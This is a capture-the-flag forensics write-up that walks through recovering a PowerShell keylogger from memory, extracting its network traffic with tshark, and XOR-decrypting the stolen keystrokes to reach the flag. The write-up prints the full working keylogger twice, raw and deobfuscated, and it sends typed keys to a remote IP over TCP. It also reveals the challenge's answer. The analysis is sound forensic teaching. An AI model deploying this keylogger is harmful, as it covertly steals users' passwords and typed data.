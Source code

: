 # Solve
- Find powershell payload in memory

![1.png](1.png)

```ps
New-PSDrive -PSProvider Registry -Name HKU -Root HKEY_USERS
``` 
- The above is used to create a registry for global users
```ps
$g = $null; $d = Get-ChildItem -Path 'HKU:' | ForEach-Object { if (Test-Path ('HKU:\' + $_.PSChildName + '\Software\GetKeypressValue')) { $_.PSChildName } }; $ipaddress = '192.168.3.133'; $port = 60457; $client = New-Object System.Net.Sockets.TcpClient($ipaddress, $port); $stream = $client.GetStream(); $a = 'WOLPHV'; $b = [System.Text.Encoding]::ASCII.GetString((1..49 | ForEach-Object { Get-Random -Minimum 0 -Maximum 256 })); $c = 0; 1..3000 | ForEach-Object { $e = Get-ItemProperty -Path ('HKU:\\' + $d + '\\Software\\GetKeypressValue') -Name KeypressValue; $f = $e.KeypressValue; if ($f -eq 'Shift + [') { $f = '{' } elseif ($f -eq 'Shift + ]') { $f = '}' }; if ($f.Length -lt 2 -and $f -ne $g) { $g = $f; $h = ''; $h += [char]($f[0] -bxor $a[$c % $a.Length]); $c++; $f = $h; Write-Output $f; $i = [System.Text.Encoding]::ASCII.GetBytes($b + $f); $stream.Write($i, 0, $i.Length) }; Start-Sleep -Milliseconds 50 }; $stream.Close(); $client.Close()
```
- Decipher payload to get something more like
```ps
$user = Get-ChildItem -Path 'HKU:' | ForEach-Object { if (Test-Path ('HKU:\' + $_.PSChildName + '\Software\GetKeypressValue')) { $_.PSChildName } }
$ipaddress = '192.168.3.133'
$port = 60457 
$client = New-Object System.Net.Sockets.TcpClient($ipaddress, $port)
$stream = $client.GetStream()
$string = 'WOLPHV'
$randomString = [System.Text.Encoding]::ASCII.GetString((1..49 | ForEach-Object { Get-Random -Minimum 0 -Maximum 256 }))
$xorIndex = 0
1..3000 | ForEach-Object {
    $itemProperty = Get-ItemProperty -Path ('HKU:\\' + $user + '\\Software\\GetKeypressValue') -Name KeypressValue
    $currentKeypressValue = $itemProperty.KeypressValue
    if ($currentKeypressValue -eq 'Shift + [') { $currentKeypressValue = '{' }
    elseif ($currentKeypressValue -eq 'Shift + ]') { $currentKeypressValue = '}' }
    if ($currentKeypressValue.Length -lt 2 -and $currentKeypressValue -ne $previousKeypressValue) {
        $previousKeypressValue = $currentKeypressValue
        $xorResult = ''
        $xorResult += [char]($currentKeypressValue[0] -bxor $string[$xorIndex % $string.Length])
        $xorIndex++
        $currentKeypressValue = $xorResult
        Write-Output $currentKeypressValue
        $data = [System.Text.Encoding]::ASCII.GetBytes($randomString + $currentKeypressValue)
        $stream.Write($data, 0, $data.Length)
    }
Start-Sleep -Milliseconds 50
}
$stream.Close()
$client.Close()
```
- Notice data is being sent to the attacker. Locate the packets in wireshark
- ![2.png](2.png)
- Dump packets to get the data we want

`tshark -r network-capture.pcap -x | grep -A 1 '^0020  3f 5d 3f 25 3d 3f 3f 60 3f 3f 07 15 3f 3f 3f 3f' < out.txt`
- The above line identifies the packets of interest based on the random string prefix

`awk 'NR % 3 == 2 {print substr($0, length)}' out.txt | tr -d '\n'`
- Get the encrypted data in the form `6-/4->2##$ 3%*+?/:2a/?%30"-9$#$*>c:3 +-'-!2(!1!:y,#=87$8#",ge|;3<0,.$;ec4=} <cz{>ce2c!+c:f"za4!$:(-9?&32%''83*>9.796#>-?$#%#<39&"7<9 '-$!7:;5 !80'!k{mdt.k{mdt.`
- Use the following python script to decrypt the data
```python
WOLPHV = "WOLPHV"
input_string = "6-/4->2##$ 3%*+?/:2a/?%30\"-9$#$*>c:3 +-'-!2(!1!:y,#=87$8#\",ge|;3<0,.$;ec4=} <cz{>ce2c!+c:f\"za4!$:(-9?&32%''83*>9.796#>-?$#%#<39&\"7<9 '-$!7:;5 !80'!k{mdt.k{mdt."
str = ""
for i in range(len(input_string)):
    str += chr((ord(input_string[i]) ^ ord(WOLPHV[i % len(WOLPHV)])))
print(str)
```
- Get output `abcdehelotheregogle.comegmailuser3rewdawewegmail.compasword123wctf{ahk-5cr1pt5-4r3-d4ng3r0u5-dirmgaiwpd}iwonderifanyoneislisteningtowhatiamtypinghm;3;3;b;3;3;b `
- 
Flag: `wctf{ahk-5cr1pt5-4r3-d4ng3r0u5-dirmgaiwpd}`
